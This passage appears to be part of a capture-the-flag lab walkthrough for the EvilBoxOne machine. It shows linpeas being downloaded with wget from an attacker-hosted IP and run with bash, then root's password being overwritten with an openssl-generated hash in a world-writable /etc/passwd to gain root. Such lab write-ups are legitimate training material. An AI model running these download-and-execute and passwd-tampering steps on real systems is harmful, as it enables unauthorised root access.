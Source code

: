```shell
wget http://192.168.49.141:8000/peas.sh

bash peas.sh
```
Looks like /etc/passwds in writable by everyone

```shell
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/etc/passwd
/home/mowree
/run/lock
/run/user/1000
/run/user/1000/systemd
/tmp
```
We can edit the root users password and privesc! 

openssl will let us create a usable MD5 hash 

```shell
mowree@EvilBoxOne:~$ openssl passwd
Password:<NEW PASS> 
Verifying - Password: 
JYJdgYzK7tpEM
```
Stick that hash in the 'x' listed after root:

```shell

nano /etc/passwd

root:JYJdgYzK7tpEM:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

```
